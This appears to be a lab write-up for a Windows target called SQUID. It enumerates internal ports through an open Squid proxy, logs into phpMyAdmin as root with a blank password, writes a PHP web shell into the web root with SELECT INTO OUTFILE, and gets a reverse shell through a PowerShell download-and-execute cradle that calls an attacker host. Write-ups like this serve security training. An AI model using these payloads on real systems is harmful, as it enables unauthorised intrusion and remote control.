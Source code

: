 # SQUID

OS: Windows

# nmap

```sh
Nmap scan report for 192.168.169.189
Host is up, received user-set (0.046s latency).
Scanned at 2023-08-24 18:19:30 +08 for 106s
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON
3128/tcp open  squid-http syn-ack
```

This is quite unusual to see one port open on a windwos machine.

```sh
# Nmap 7.93 scan initiated Thu Aug 24 18:22:58 2023 as: nmap -sC -sV -vv --min-rate 2000 -oA openscsv -p 3128 -Pn 192.168.169.189
Nmap scan report for 192.168.169.189
Host is up, received user-set (0.020s latency).
Scanned at 2023-08-24 18:22:58 +08 for 32s

PORT     STATE SERVICE    REASON  VERSION
3128/tcp open  http-proxy syn-ack Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
```

Se wee see that the port runs a Squid HTTP Proxy Server

> Squid is a caching and forwarding HTTP web proxy. It has a wide variety of uses, including speeding up a web server by caching repeated requests, caching web, DNS and other computer network lookups for a group of people sharing network resources, and aiding security by filtering traffic.

![](main.png)

We can scan the target with a help of a tool called spose.py  [spose](https://github.com/aancw/spose).
This tool makes a simple http-get request to the target; ‘http://IP:PORT’ and suggests that the port is open when URL status cide 200, 404 or 401 is returned.

```sh
 python spose.py --proxy http://192.168.171.189:3128 --target 127.0.0.1
Using proxy address http://192.168.171.189:3128
127.0.0.1 3306 seems OPEN 
127.0.0.1 8080 seems OPEN 
                              
```
Cool! Let's check 8080 out

We can visit the page through our browser using FoxyProxy:

![](foxy.png)

![](8080.png)


We visit the phpmyadmin site and  login with root as username and empty password.     

> phpMyAdmin is a free software tool written in PHP, intended to handle the administration of MySQL over the Web. 

![](phpmyadminroot.png)

On the phpinfo page we can find the document root so we know where to write the file:

![](docroot.png)

Let's write “TEST” to a file in the documentroot C:/wamp/www by executing the sql command in the console:

```sql
SELECT "TEST" into OUTFILE "C:/wamp/www/test.txt"
```

![](test.png)


Info about the funcion and syntax can be found here: https://mariadb.com/kb/en/select-into-outfile/
We visit the page and.....success!

![](testxt.png)

Now we will see if we can get some code execution by crafting a php file.:

```php

<?php echo shell_exec($_GET['cmd']);?>
```



```sql

SELECT "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE "C:/wamp/www/cmd.php";
```

![](cmdphp.png)

Boom! we have command execution!

![](cmd.png)

No we need to get a proper shell:

```sh
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

```sh
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.45.158 -Port 443
```

Serve the ps1 file and execute the command:

`http://127.0.0.1:8080/cmd.php?cmd=powershell%20IEX(New-Object%20Net.WebClient).downloadString(%27http://192.168.45.158/Invoke-PowerShellTcp.ps1%27)`


![](proof.png)
